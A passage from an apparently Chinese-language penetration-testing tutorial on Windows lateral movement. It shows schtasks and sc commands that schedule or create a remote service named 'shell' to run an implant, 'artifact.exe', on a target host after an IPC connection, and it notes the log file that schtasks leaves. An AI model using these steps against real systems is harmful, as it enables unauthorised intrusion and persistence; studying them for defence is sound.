 4. 使用 schtasks 创建名为 cs 的计划任务

```
schtasks /create /TN cs /TR C:\artifact.exe /SC once /ST 17:32
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlk0LCVzTu8TicCResDv8OZUOpabpcpFWUnVfxexYjPOrUL3Ro7FUq7XA/640?wx_fmt=png)

可以用如下 schtasks 命令查看创建的计划任务

```
schtasks /query /TN cs
```

这里同 at 命令一样，在域环境里面就没有截图 cs 上线的图。

5. 删除计划任务

```
schtasks /delete /tn "cs"
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlDNCc8EgyVBd410QcBZoRooeldVxqd3AvzhuIHOZhiarSTCXNLEUpwQA/640?wx_fmt=png)

在使用`schtasks`命令时，会在系统中留下日志文件`C:\Windows\Tasks\SCHEDLGU.txt`如果执行`schtasks`命令后没有回显，可配合`ipc$`执行文件，使用`type`命令远程查看执行结果

利用 windows 服务
=============

利用 windows 服务进行横向渗透主要是通过 sc 命令，但是注意这里跟之前 windows 远程命令相比多了一个条件，即当前主机需要为 administrator 权限。

sc 命令
-----

> sc 命令是 XP 系统中功能强大的 DOS 命令, SC 命令能与 “服务控制器” 和已安装设备进行通讯。SC 是用于与服务控制管理器和服务进行通信的命令行程序。

利用 sc 命令进行横向渗透的大体流程如下：

1. 与靶机建立 ipc 连接

2. 拷贝 exe 到主机系统上

3. 在靶机上创建一个 shell 的服务

```
sc \\WIN-M836NN6NU8B create shell binpath= "c:\artifact.exe"
```

这里需要用`cmd shell`运行，否则会报错

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlJB1JGBaKY03wDzJl4q0HPtKshE2csNNGHaOF47uQEOdyajeyPGetlA/640?wx_fmt=png)

4. 启动 shell 服务

```
sc \\WIN-M836NN6NU8B start shell
```

5. 删除创建的 shell 服务

```
sc \\[host] delete [servicename]
```

